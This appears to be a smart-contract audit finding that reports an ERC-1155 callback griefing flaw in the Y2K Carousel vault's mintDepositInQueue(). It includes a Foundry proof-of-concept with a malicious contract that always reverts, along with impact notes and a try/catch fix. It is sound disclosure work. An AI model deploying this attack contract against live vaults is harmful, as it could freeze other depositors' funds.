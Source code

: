 warRoom

high

# ERC1155 callback can cause critical griefing attack

## Summary
ERC-1155 mint functionality has a callback to the recipient's contract which can have malicious code.
## Vulnerability Detail
##### Where : In [mintDepositInQueue()](https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L310-L355)
##### When : During ERC-1155 callback
##### Description :
- While processing deposits in `mintDepositInQueue()` function users get minted ERC-1155 tokens. 
- [`_mint()`](https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L536) function of ERC-1155 has inherent [`onERC1155Received()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/3f610ebc25480bf6145e519c96e2f809996db8ed/contracts/token/ERC1155/ERC1155.sol#L456) callback hook to recipient's contract.
- A malicious user can cause the callback function to always `revert()` which will halt the processing of deposits for other users as well. 
- Although `mintDepositInQueue()` has operations argument to continue deposits were left off, users depositing after the attacker are still vulnerable to the attack.


##### POC :
To run : forge test --match-test testDepositInQueue_POC -vv
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../Helper.sol";
import "../../../src/v2/Carousel/CarouselFactory.sol";
import "../../../src/v2/TimeLock.sol";
import "../../../src/v2/Carousel/Carousel.sol";
import "../../../src/v2/libraries/CarouselCreator.sol";
import "../../../src/v2/interfaces/ICarousel.sol";
import "../../../src/v2/VaultV2.sol";

contract maliciousUser {
    error AttackSuccessful();
    function onERC1155Received(address operator, address from, uint id, uint amount, bytes memory data) public returns (bytes4 response){
        console.log("Reverted due to griefing attack");
       revert ("Griefing attack successful"); 
    }
    }
    
contract CarouselTest is Helper { 
    using stdStorage for StdStorage;

    // VaultV2 vaultv2;
    Carousel vault;

    address controller = address(0x54);
    address relayer = address(0x55);
    address emissionsToken;
    uint256 relayerFee = 2 gwei;
    uint256 depositFee = 50;
    address USER3 = address(0x123);
    address USER4 = address(0x345);
    address USER5 = address(0x567);
    address USER6 = address(0x789);

    function setUp() public {

        vm.warp(1675884389);

        emissionsToken = address(new MintableToken("EmissionsToken", "etkn"));

        UNDERLYING = address(new MintableToken("UnderLyingToken", "utkn"));


        vault = new Carousel(
                Carousel.ConstructorArgs(
                        false,
                        UNDERLYING,
                        "Vault",
                        "v",
                        "randomURI",
                        TOKEN,
                        STRIKE,
                        controller,
                        TREASURY,
                        emissionsToken,
                        relayerFee,
                        depositFee
                )
        );


        // deal(UNDERLYING, address(this), 100 ether, true);

        deal(UNDERLYING, USER, 1000 ether, true);
        deal(UNDERLYING, USER2, 1000 ether, true);
        deal(UNDERLYING, USER3, 1000 ether, true);
        deal(UNDERLYING, USER4, 1000 ether, true);
        deal(UNDERLYING, USER5, 1000 ether, true);
        deal(UNDERLYING, USER6, 1000 ether, true);
    }

    function testDepositInQueue_POC() public {
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint _epochId = 2;
        uint _emissions = 1000 ether;

        deal(emissionsToken, address(vault), 1000 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        // POC - Griefing Attack ---------------------------------------------------
        vm.startPrank(USER3);
        IERC20(UNDERLYING).approve(address(vault), 10 ether);
        maliciousUser _maliciousUser = new maliciousUser();
        vault.deposit(0, 10 ether, address(_maliciousUser));
        vm.stopPrank();
       // --------------------------------------------------------------------------

        vm.startPrank(USER);
        IERC20(UNDERLYING).approve(address(vault), 10 ether);
        vault.deposit(0, 10 ether, USER);
        vm.stopPrank();

        vm.startPrank(USER2);
        IERC20(UNDERLYING).approve(address(vault), 10 ether);
        vault.deposit(0, 10 ether, USER2);
        vm.stopPrank();

        uint256 _queueLength = 3;
        assertEq(vault.getDepositQueueLenght(), _queueLength);
        // test revert cases
        // should revert if epochId is 0 as this epoch is not supposed to minted ever
        vm.expectRevert("Griefing attack successful");
        vault.mintDepositInQueue(_epochId, _queueLength);
    
        }
```
The above script should pass : 

![image](https://user-images.githubusercontent.com/114808213/227716944-917901c8-b44c-4ab6-b937-34108b34fdb5.png)

## Impact
1. As  `mintDepositInQueue` loops through all the deposits, reverting will cause the processing of other user's deposits to fail,  despite the underlying assets of these users already transferred to vault.
2. Potential permanent freezing of user funds.

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L310-L355

https://github.com/OpenZeppelin/openzeppelin-contracts/blob/3f610ebc25480bf6145e519c96e2f809996db8ed/contracts/token/ERC1155/ERC1155.sol#L447-L460
## Tool used
Manual Review

## Recommendation 
Implement try and catch inside `mintDepositInQueue()` around `_mintShares()`.
